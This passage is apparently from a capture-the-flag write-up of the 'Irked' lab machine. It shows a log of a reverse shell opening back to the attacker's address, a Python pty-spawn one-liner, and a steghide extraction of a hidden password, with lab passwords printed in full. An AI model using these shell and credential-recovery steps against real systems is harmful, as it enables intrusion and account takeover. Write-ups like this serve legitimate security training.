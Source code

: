 ```bash
[*] Reading from socket B
[*] B: "kdRB7Qh684K40B6i\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.11:9999 -> 10.10.10.117:59493) at 2022-09-20 20:01:38 -0400

$ whoami

ircd
```  

## Post Exploitation  

### User ircd  

Spawn a pty shell:  

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```  

I checked the /home directory and found a folder for ircd as well as another user, djmardov. This could have been guessed based on the email we discovered earlier.  

I tried to access .ssh and other files, including user.txt, but no luck. Looking inside /home/djmardov/Documents, we see an ASCII file called .backup with the following contents:  

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```  

I had to do some thinking on this one, as this passcode resembles old cheat code patterns for video games, and isn't the password for any user on the system.  

## Privilege Escalation - djmardov  

After a while of thinking on the stego reference and looking around some more, I refer back to the weird image hosted on port 80.  

Downloading this image, irked.jpg, we can use steganography tools to get hidden information from it. If you run the command *file irked.jpg* it returns that it is a JFIF file type.  

I used a popular tool, StegHide, to get hidden information from the file (ugh, stego).  

```bash
$ steghide --extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss

wrote extracted data to "pass.txt".

$ cat pass.txt  
          
Kab6h+m+bbp2J:HG
```  
